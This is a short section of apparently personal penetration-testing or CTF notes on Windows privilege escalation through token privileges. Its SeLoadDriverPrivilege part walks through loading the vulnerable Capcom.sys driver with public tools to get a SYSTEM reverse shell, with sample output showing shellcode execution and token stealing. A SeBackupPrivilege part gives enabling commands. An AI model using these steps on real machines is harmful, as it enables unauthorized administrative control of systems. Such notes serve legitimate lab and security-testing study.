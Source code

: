 
**SeDebugPrivilege**

TODO


**SeRestorePrivilege**

TODO


**SeLoadDriverPrivilege**

If we have SetLoadDriverPervilege enabled we can be Administrator by using the `Capcom.sys` driver to execute some kernel command

First : <https://github.com/TarlogicSecurity/EoPLoadDriver/><br>
compile this on your windows machine and import on the box
```
./yolo.exe System\CurrentControlSet\Yolo c:\temp\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\Yolo
NTSTATUS: 00000000, WinError: 0
```
Look at the end of the ouput we need to have this `NSTATUS; 00000000`

Then use : <https://github.com/tandasat/ExploitCapcom><br>
Change the command on exploitcapcom.cpp and put your exec cpp name run your listener and exec the ExploitCapcom.exe:
```
PS C:\temp> ./exp.exe
./exp.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 0000017CD8FD0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```
Got your reverse shell as Administrator


**SeBackupPrivilege**

If you are in Backup_Operator group, you should have *SeBackupPrivilege* enable. If it doesn't you can still enable it by following this procedure :

<https://github.com/giuliano108/SeBackupPrivilege>

Download 2 Dlls from the previous github, upload on the machine, and Import-Module for both dll. then

```powershell
#Import-Module ./dll1
#Import-Module ./dll2
Set-SeBackupPrivilege
```
